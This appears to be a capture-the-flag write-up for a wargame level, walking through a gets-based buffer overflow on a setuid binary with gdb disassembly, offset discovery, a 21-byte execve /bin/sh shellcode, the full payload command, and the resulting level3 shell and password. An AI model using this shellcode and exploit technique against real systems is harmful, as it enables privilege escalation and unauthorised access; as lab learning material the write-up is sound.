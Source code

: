 # Search

```
$ ls -la
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2

$ ./level2
qqqqqqqqqqqq
qqqqqqqqqqqq

./level2
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
Segmentation fault (core dumped)
```
The executable file level2 wait for an input and segfault if this input is too great

# Analyze with gdb

```
$gdb level2

(gdb) disas main
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret 

(gdb) disas p
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret
```

The main function call a p function and do nothing else\
In the p function:\
a call to fflush\
a call to gets function which can be vulnerable but there is a verification here,\
the return adress could not be on the stack\
```(__builtin_return_address (0) & 0xb0000000) == 0xb0000000```\
so here we cannot use the stack.\
we can notice a call to the puts fonction which print the return value of gets \
after there is a call to strdup which use malloc, wait the argument is our buffer\
so we can use the heap to send a shellcode

### strdup always return 0x0804a008

```
$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                               = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)    = 0xbffff6fc
puts("")                                         = 1
strdup("")                                       = 0x0804a008
+++ exited (status 8) +++
```

# find the offset

I use a pattern generator and look at the value of eip when my program segfault
```
$ gdb level2
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip
eip            0x37634136       0x37634136
```

0x37634136 -> offset = 80 
thanks to this [website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

# shellcode and payload

our shellcode [here](https://shell-storm.org/shellcode/files/shellcode-575.html):
```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80```

so our payload look like :
```python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit```

- 21 bytes for our shellcode
- 59 bytes for padding
- the return address 0804a008 -> little endian -> \x08\xa0\x04\x08

```
cat /tmp/exploit - | ./level2 
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
